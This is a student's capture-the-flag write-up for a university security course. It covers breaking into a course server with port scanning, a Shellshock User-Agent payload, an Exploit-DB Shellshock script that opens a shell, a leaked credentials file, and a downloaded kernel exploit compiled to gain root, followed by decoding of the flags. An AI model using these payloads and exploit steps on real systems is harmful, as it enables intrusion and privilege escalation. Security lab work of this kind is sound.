 ```yaml
---
title: Assignment 6
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
header-includes:
  - \usepackage{listings}
---
```


# Capture the Flag

To establish the servers IP address from the hostname we used `getent`:

```
$ getent hosts ossec-host.cs.ru.nl
131.174.142.7   ossec-host.cs.ru.nl
```

The first thing we tried, was connecting to the server via telnet, but the connection was refused:

```bash
$ telnet ossec-host.cs.ru.nl
Trying 131.174.142.7...
telnet: Unable to connect to remote host: Connection refused
```

Next we tried connecting via SSH, and there is indeed an SSH server running on the host, but connecting requires a password that we do not know:

```
$ ssh root@ossec-host.cs.ru.nl
root@ossec-host.cs.ru.nl's password:
Permission denied, please try again.
```

We can use `nmap` to scan for open ports on the host server:

```
nmap 131.174.142.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-10 19:00 CET
Nmap scan report for ossec-host.cs.ru.nl (131.174.142.7)
Host is up (0.073s latency).
Not shown: 937 filtered ports, 61 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

The only two open ports are port 22 for ssh, and port 80 for http.

We tried to exploit the Shellshock vulnerability over HTTP, but for some reason it did not work. We asked the student assistants about this, but they could not identify the problem either. The command we used was

\begin{lstlisting}[breaklines=true]
curl -H "User-Agent: () { :;}; /bin/ls" 'http://ossec-host.cs.ru.nl/cgi-bin/fortunecow.sh'`
\end{lstlisting}

The student assistants recommended downloading a ready made exploit script, so we found one on <https://exploit.db.com/exploits/34900/>, and successfully used it to get a shell on the remote host.

\begin{lstlisting}[breaklines=true]
$ python2 34900.py rhost=ossec-host.cs.ru.nl rport=12345 payload=bind pages=/cgi-bin/fortunecow.sh
[-] Trying exploit on : /cgi-bin/fortunecow.sh
[!] Successfully exploited
[!] Connected to ossec-host.cs.ru.nl
ossec-host.cs.ru.nl> uname -a
Linux ossec-host 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
ossec-host.cs.ru.nl> whoami
www-data
ossec-host.cs.ru.nl> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

As you can see the server uses Ubuntu with Linux kernel version 3.13.0, and we do not have root privileges, and are logged in as user `www-data`.

We look for the first flag, and the credentials file, that is located in the same directory, according to the instructions:

```
ossec-host.cs.ru.nl> find / -iname flag1
/var/www/flag1
ossec-host.cs.ru.nl> ls /var/www
credentials.txt
flag1
html
ossec-host.cs.ru.nl> cat /var/www/credentials.txt
SSH
username: bob
password: ampere llama
```

Now we can log in via SSH.

If we look on Exploit DB for the kernel version, we find the following exploit: <https://www.exploit-db.com/download/37292.c>, which can be used to get root privileges.

To run the exploit, we simply log in via SSH, download the exploit code, compile it, and finally run it, then we are root:

```
# On my PC
$ ssh bob@ossec-host.cs.ru.nl
bob@ossec-host.cs.ru.nl's password:
# Now we are on the server
$ cd /tmp/
$ curl https://www.exploit-db.com/download/37292.c > exploit.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5119  100  5119    0     0   2535      0  0:00:02  0:00:02 --:--:--  2536
$ gcc -o exploit exploit.c
$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(bob)
```

The second flag is in the `/root` directory and buried in an 25 megabyte file, according to the instructions. We found the file, and copied it to out local machine using `scp`.

## Flag 1

The first flag was decoded with the TOPKEK cipher, in which `KEK` stands for 0, and `TOP` stands for 1, followed by $n$ `!`s which indicate how often the digit must be repeated. We wrote a little script to translate to binary:

\begin{lstlisting}[
	breaklines = true,
	literate = {0}{{0\allowbreak}}{1}
	{0}{{0\allowbreak}}{1}
]
$ ./decode_topkek.sh flag1
01010111011101010110001001100010011000010010000001101100011101010110001001100010011000010010000001100100011101010110001000100000011001000111010101100010001000000010110100100000010100100110100101100011011010110010000001010011011000010110111001100011011010000110010101111010
\end{lstlisting}

When translated to ASCII, the flag reads `Wubba lubba dub dub - Rick Sanchez`.

## Flag 2

We were able to retrieve the flag, but we could not extract the payload. We did not include the flag in our submission due to its size.

Looking at the file it consists of random characters, form which we have to extract the payload somehow. We tried filtering for words that consists solely of letters, and after that yielded nothing added the restriction that the words must be at least 5 characters long:

```
$ grep -oP '\b[A-Za-z]+\b' flag2
f
f
VC
fzshz
c
mi
w
y
XBj
Wxb
# lots of output omitted
grep -oP '\b[A-Za-z]{5,}\b' flag2
fzshz
FJsun
pAqdm
wJcjm
pgXucO
fcZaf
ngoea
hhnZY
xhZBsrep
Cajhst
# lots of output omitted
```

Next we tried looking for space separated words consisting of letters with length $\geq$ 5:

```
$ grep -oP '\s[A-Za-z]{5,}\s' flag2
 fzshz 
 Cajhst 
 vbsPnlYVe 
 ccdtQfhDk 
 qUzpIkL 
 cSrEg 
 cgsvbDsSIFxqKy 
 JwdcuP 
 qcVlq 
 QNPdh 
# lots of output omitted
```

Neither of these methods revealed the hidden message in the flag.
